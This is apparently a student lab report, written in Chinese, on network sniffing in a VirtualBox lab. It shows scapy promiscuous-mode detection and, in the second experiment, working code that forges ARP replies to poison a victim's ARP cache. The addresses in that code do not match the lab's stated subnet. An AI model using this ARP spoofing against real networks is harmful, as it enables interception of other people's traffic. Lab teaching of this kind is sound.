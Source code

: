 # 网络嗅探
## 实验环境

- VirtualBox 虚拟机
- 攻击者主机（Attacker）：Kali Rolling (2021.2) x64
  - Attacker 
- 网关（Gateway, GW）：Debian Buster
  - Gateway
- 靶机（Victim）：From Sqli to shell / xp-sp3 / Kali
  - Victim-XP

## 第一个实验


### 1.配置网络环境

1.因为实验要求攻击者主机、网关、靶机在同一局域网内，因此给攻击者主机添加一块内部网络（intnet2)的网卡

2.打开kali，使用ip a命令查看ip地址，发现新添加的网卡没有ip地址

3.修改kali的配置文件

添加
auto eth1
iface eth1 inet dhcp

![](./img/修改kali配置文件.png)

修改之后重启网卡
/etc/init.d/networking restart 

重新输入ip a，就可以获得kali的ip地址了
ip地址为172.16.222.129

08:00:27:00:b0:b9 eth1

如图：
![](./img/攻击者主机ip.png)

使用ipconfig查看靶机ip地址
其ip地址为172.16.222.144

08:00:27:22:9c:67


ip
网关的ip地址是172.16.222.1

08:00:27:25:f9:45 enp0s9

### 2.没有开启混杂模式

在靶机上检测混杂模式，输入
ip link show enp0s3
如图所示
![](./img/检查混杂模式.png)

在攻击者主机上开启scapy

sudo scapy

然后输入
pkt = promiscping("172.16.222.144")


- 在网关没有开启混杂模式时，使用 `scapy` 的 `promiscping` 进行检测。可以看到1个packet被留存了下来

如图：![](./img/scapy.png)

- 查看arp缓存表。也没有在eth3这块网卡有新的IP与mac对应

![](./img/arp缓存.png)

### 开启混杂模式

1.开启靶机网卡的混杂模式，输入
sudo ip link set enp0s3 promisc on

然后输入ip link show enp0s3进行检验
发现成功开启

如图：![](./img/开启混杂模式.png)

在攻击者主机上继续执行上次的scapy命令
如图：
![](./img/开启混杂模式之后.png)

最后在靶机上关闭混杂模式
输入：
sudo ip link set enp0s3 promisc off

如图：![](./img/关闭混杂模式.png)

## 第二个实验

获取当前局域网的网关 MAC 地址
构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.222.1")

查看构造好的 ARP 请求报文详情
arpbroadcast.show()

[ Ethernet ]###
#   dst= ff:ff:ff:ff:ff:ff
#   src= 08:00:27:bd:92:09
#   type= ARP
# ###[ ARP ]###
#      hwtype= 0x1
#      ptype= IPv4
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:bd:92:09
#      psrc= 192.168.0.103
#      hwdst= 00:00:00:00:00:00
#      pdst= 192.168.0.1

发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

伪造网关的 ARP 响应包
准备发送给受害者主机 192.168.0.102
ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed=ARP(op=2, psrc="192.168.0.1", pdst="192.168.0.102", hwdst="08:00:27:bd:92:09")

#发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)

